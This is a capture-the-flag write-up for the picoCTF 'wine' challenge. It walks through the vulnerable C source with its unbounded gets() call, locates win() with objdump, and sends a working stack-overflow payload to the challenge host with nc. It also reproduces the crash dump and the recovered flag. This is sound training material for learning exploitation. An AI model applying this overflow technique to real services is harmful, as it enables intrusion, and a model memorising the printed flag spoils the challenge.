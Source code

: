 # wine : Binary Exploitation

Challenge best paired with wine.  
I love windows. Checkout my [program](vuln.zip) running on a linux box.  
Unzip the archive with the password `picoctf` and connect with it using `nc saturn.picoctf.net 55701`

Author : Neel Bhavsar

# Solution

For now, try running it.
```
$ nc saturn.picoctf.net 55701
Give me a string!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
The service accepts any input.

When we unzip `vuln.zip`, we'll find `vuln.c` and `vuln.exe` inside.  
Check the source code.
```c vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void win(){
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("flag.txt not found in current directory.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

void vuln()
{
  printf("Give me a string!\n");
  char buf[128];
  gets(buf);
}

int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);
  vuln();
  return 0;
}
```
This code reveals the existence of win(). Additionally, it is apparent that the `gets(buf);` in vuln() allows buffer overflow.  
```
$ file vuln.exe 
vuln.exe: PE32 executable (console) Intel 80386, for MS Windows
```
This file is a 32-bit binary.  
We just need to trigger win() via a buffer overflow.  
Since the return address is located 8bytes after the end of buf, the address of win() should be written at the offset of 12 bytes from the end of buf.
```
$ objdump -M intel -d vuln.exe | grep win 
00401530 <_win>:
  401551:       75 18                   jne    40156b <_win+0x3b>
```
The address of win() is at 0x401530.  
Thus, the payload is as shown below:
```
$ (python3 -c 'import sys; sys.stdout.write("a"*140)'; echo -e '\x30\x15\x40') | nc saturn.picoctf.net 55701
```
Execute it.
```
$ (python3 -c 'import sys; sys.stdout.write("a"*140)'; echo -e '\x30\x15\x40') | nc saturn.picoctf.net 55701
Give me a string!
picoCTF{Un_v3rr3_d3_v1n_2ef42747}
Unhandled exception: page fault on read access to 0x7fec39e0 in 32-bit code (0x7fec39e0).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:7fec39e0 ESP:0064fe84 EBP:61616161 EFLAGS:00010206(  R- --  I   - -P- )
 EAX:00000000 EBX:00230e78 ECX:0064fe14 EDX:7fec48f4
 ESI:00000005 EDI:0021d690
Stack dump:
0x0064fe84:  00000000 00000004 00000000 7b432ecc
0x0064fe94:  00230e78 0064ff28 00401386 00000002
0x0064fea4:  00230e70 006d0da0 7bcc4625 00000004
0x0064feb4:  00000008 00230e70 0021d690 0199a584
0x0064fec4:  3a25148b 00000000 00000000 00000000
0x0064fed4:  00000000 00000000 00000000 00000000
Backtrace:
=>0 0x7fec39e0 (0x61616161)
0x7fec39e0: hlt
Modules:
Module  Address                 Debug info      Name (5 modules)
PE        400000-  44b000       Deferred        vuln
PE      7b020000-7b023000       Deferred        kernelbase
PE      7b420000-7b5db000       Deferred        kernel32
PE      7bc30000-7bc34000       Deferred        ntdll
PE      7fe10000-7fe14000       Deferred        msvcrt
Threads:
process  tid      prio (all id:s are in hex)
00000008 (D) Z:\challenge\vuln.exe
        00000009    0 <==
0000000c services.exe
        0000000e    0
        0000000d    0
00000012 explorer.exe
        00000013    0
System information:
    Wine build: wine-5.0 (Ubuntu 5.0-3ubuntu1)
    Platform: i386
    Version: Windows Server 2008 R2
    Host system: Linux
    Host version: 6.5.0-1023-aws
```

Get the flag!

`picoCTF{Un_v3rr3_d3_v1n_2ef42747}`
